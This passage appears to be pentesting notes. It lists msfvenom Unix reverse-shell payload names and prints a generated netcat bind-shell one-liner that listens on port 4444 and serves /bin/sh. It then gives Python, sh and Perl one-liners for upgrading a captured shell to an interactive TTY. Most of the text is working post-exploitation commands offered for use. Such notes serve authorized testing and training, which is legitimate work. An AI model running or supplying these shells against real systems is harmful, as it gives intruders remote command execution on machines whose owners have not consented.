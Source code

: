 ```none
    cmd/unix/reverse                                    Creates an interactive shell through two inbound connections
    cmd/unix/reverse_awk                                Creates an interactive shell via GNU AWK
    cmd/unix/reverse_python                             Connect back and create a command shell via Python
    cmd/unix/reverse_python_ssl                         Creates an interactive shell via python, uses SSL, encodes with base64 by design.
    cmd/unix/reverse_r                                  Connect back and create a command shell via R
    cmd/unix/reverse_ruby                               Connect back and create a command shell via Ruby
**snip**
```

Now, try to check the payload

```none
msfvenom -p cmd/unix/bind_netcat
Payload size: 105 bytes
mkfifo /tmp/cdniov; (nc -l -p 4444 ||nc -l 4444)0</tmp/cdniov | /bin/sh >/tmp/cdniov 2>&1; rm /tmp/cdniov
```

## Spawning a TTY Shell

Once we have reverse shell, we need a full TTY session by using either Python, sh, perl, ruby, lua, IRB. [Spawning a TTY Shell](https://netsec.ws/?p=337) and [Post-Exploitation Without A TTY](http://pentestmonkey.net/blog/post-exploitation-without-a-tty) have provided multiple ways to get a tty shell

### Python

```none
python -c 'import pty; pty.spawn("/bin/sh")'
```

or

```none
python -c 'import pty; pty.spawn("/bin/bash")'
```

```none
python -c 'import os; os.system("/bin/bash")'
```

### sh

```none
/bin/sh -i
```

### Perl

```none
perl -e 'exec "/bin/sh";'
```

